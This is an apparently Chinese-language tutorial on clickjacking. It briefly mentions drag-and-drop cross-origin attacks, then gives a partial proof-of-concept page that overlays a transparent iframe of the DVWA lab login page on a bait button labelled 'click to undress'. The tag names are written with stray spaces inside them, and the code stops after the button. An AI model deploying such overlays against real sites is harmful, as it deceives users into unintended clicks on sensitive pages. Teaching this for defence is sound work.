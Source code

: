 主流的浏览器都有`drag-and-drop` API 接口，供网站开发人员创建交互式网页。但是，这些 API 接口在设计时没有考虑很多的安全性问题，导致通过拖拽就可以实现跨域操作。利用拖拽技术，攻击者可以突破很多已有的安全防御措施；利用拖拽技术，攻击者可以轻易将文本注入到目标网页。在实际实施过程中，攻击者欺骗用户选择输入框的内容，完成拖拽操作。另外一种方式是，通过浏览器的 API 接口将 `i f rame` 中的内容拖拽到目标网页的 `text area`中，攻击者就可以获得用户网页中存在的敏感信息。

点击劫持(ClickJacking)漏洞原理
======================

点击劫持(ClickJacking)是一种视觉欺骗攻击手段，在web端就是`i f rame`嵌套一个透明不可见的页面，让用户在不知情(被欺骗)的情况下，点击攻击者想要欺骗用户点击的位置。因为首先劫持的是用户的鼠标点击操作，所以命名叫点击劫持。主要劫持目标是含有重要会话交互的页面，如银行交易页面、后台管理页面等。它是通过覆盖不可见的框架误导受害者点击。虽然受害者点击的是他所看到的网页，但其实他所点击的是被黑客精心构建的另一个置于原网页上面的透明页面。这种攻击利用了HTML中`<i f rame>`标签的透明属性。就像一张图片上面铺了一层透明的纸一样，你看到的是黑客的页面，但是其实这个页面只是在底部，而你真正点击的是被黑客透明化的另一个网页。

其中用到的就是这个：`透明层+i f rame`  
透明层使用了 CSS 中的透明属性，在（Chrome,FireFox,Safari,Opera浏览器）中  
`opacity`：其中数值从0到1，数值越小透明度越高，反之越明显。

`z-index`：其中设置元素的堆叠顺序。拥有更高堆叠顺序的元素总是会处于堆叠顺序较低的元素的前面。简单的说就是利用这个属性可以把一段文字置于一张图片之上,或者把图片置于文字之上,只要设置好合适的优先级就可以了。

使用 `i f rame` 嵌套被劫持的页面：`<i f rame id="xxx" src="http://www.xxx.com"  scrolling="no"></i f rame>`。注意这里要使用`scrolling="no"`使内嵌的网页不能滚动。

点击劫持（ClickJacking）漏洞的实现例子(自己制作页面的过程)
====================================

我这里是用dvwa的登录页面来嵌套而制作的，大同小异。这里先附上结果吧。

结果
--

```php

<html>
<m eta http-equiv="Content-Type" content="text/html; charset=utf-8">
<head>
<title>点击劫持制作</title>
<style>
i f rame {
width: 1920px;
height: 1200px;
position: absolute;
top: 0px;
left: 0px;
z-index: 2; //设置元素的堆叠顺序。拥有更高堆叠顺序的元素总是会处于堆叠顺序较低的元素的前面。简单的说就是利用这个属性可以把一段文字置于一张图片之上,或者把图片置于文字之上,只要设置好合适的优先级就可以了
/*控制不透明度的属性，兼容各大浏览器*/
filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
-moz-opacity: 0; /*提供给火狐浏览器的*/
-webkit-opacity: 0; /*提供给webkit内核的*/
-khtml-opacity: 0; /*提供给KHTML内核的*/
-ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
opacity: 0;
/*控制不透明度的属性，兼容各大浏览器*/
}

button {
position: absolute;
top: 345px; /*元素的顶部边缘,定义了一个定位元素的上外边距边界与其包含块上边界之间的偏移*/
left: 933px; /*元素的左边缘,定义了定位元素左外边距边界与其包含块左边界之间的偏移*/
z-index: 0; /*设置元素的堆叠顺序。拥有更高堆叠顺序的元素总是会处于堆叠顺序较低的元素的前面。简单的说就是利用这个属性可以把一段文字置于一张图片之上,或者把图片置于文字之上,只要设置好合适的优先级就可以了*/
width: 52.5166px;
height: 20.8px;
}
</style>
</head>
<body>
<button style='font-size:7px'>点击脱衣</button>
```